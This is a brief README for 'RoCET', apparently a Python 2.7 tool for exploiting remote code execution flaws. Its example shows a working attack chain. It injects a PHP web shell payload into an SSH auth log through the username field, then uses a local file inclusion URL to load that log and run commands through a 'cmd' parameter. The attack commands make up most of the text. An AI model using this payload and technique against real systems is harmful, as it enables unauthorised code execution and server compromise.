 # RoCET
RoCET is a script to interface with remote code execution vulnerabilities.

Relies on being able to read/write to a file, reading the file with curl


## Requirements
Python 2.7.X

pycurl, argparse, sys, os, StringIO

## Example
### using evilscience
`ssh '<?php echo system($_GET[cmd]); ?>'@192.168.150.129`

`./RoCET -u 'http://192.168.150.129/index.php?file=/var/log/auth.log&' -v cmd`
